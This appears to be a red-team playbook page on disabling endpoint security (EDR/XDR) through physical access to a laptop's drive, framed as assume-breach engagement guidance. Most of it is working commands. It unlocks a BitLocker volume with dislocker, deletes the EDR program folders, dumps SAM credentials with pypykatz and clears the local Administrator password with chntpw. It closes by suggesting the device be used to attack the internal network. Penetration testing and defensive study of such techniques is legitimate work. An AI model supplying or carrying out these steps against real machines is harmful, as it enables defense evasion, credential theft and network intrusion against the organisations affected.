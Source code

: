 ```yaml
---
description: Remove EDR and XDR via Physical Attack
---
```


# Physical Attack: Remove EDR

### MITRE ATT\&CK

* **T1562.001 - Impair Defenses: Disable or Modify Tools**
* **T1070.003 - Indicator Removal on Host: File Deletion**

Okay, let’s assume you are on an Assume Breach engagement. The client provides you with an employee’s laptop or computer that is already standardized with endpoint security, such as EDR or XDR. You can try this approach to completely disable the EDR from the device:

1. Unplug the internal SSD or hard disk from the employee's laptop.
2. Boot into your Linux OS and treat the employee’s SSD as an external drive.
3. Then, run this command:

Check Encryption Type

```bash
lsblk /dev/xxx -o NAME,FSTYPE
```

BitLocker Encryption Decrypt

```bash
mkdir /mnt/bitlocker
mkdir /mnt/bitlocker_unlocked
dislocker -V /dev/nvme0n1p3 -- /mnt/bitlocker # assume C: drive on this location)
mount -o loop /mnt/bitlocker/dislocker-file /mnt/bitlocker_unlocked/
ls -la /mnt/bitlocker_unlocked/
```

Remove EDR

```bash
cd /mnt/bitlocker_unlocked/
rm -rf "Program Files/EDR Product"
rm -rf "Program Files(x86)/EDR Product"
```

Dump SAM

```bash
cd /mnt/bitlocker_unlocked/Windows/System32/config
pypykatz registry --sam SAM --security SECURITY SYSTEM 
```

Remove Local Admin password:

```bash
cd /mnt/bitlocker_unlocked/Windows/System32/config
chntpw -l SAM
chntpw -u Administrator SAM
```

4. Put the drive back into the employee’s laptop.
5. Boot into Windows and log in as an Administrator.
6. Promote your user account to Local Administrator.
7. If NDR (Network Detection and Response) is not implemented, you can use the device to attack the internal network. This is because the device remains connected to the internal network, but with EDR and XDR removed.
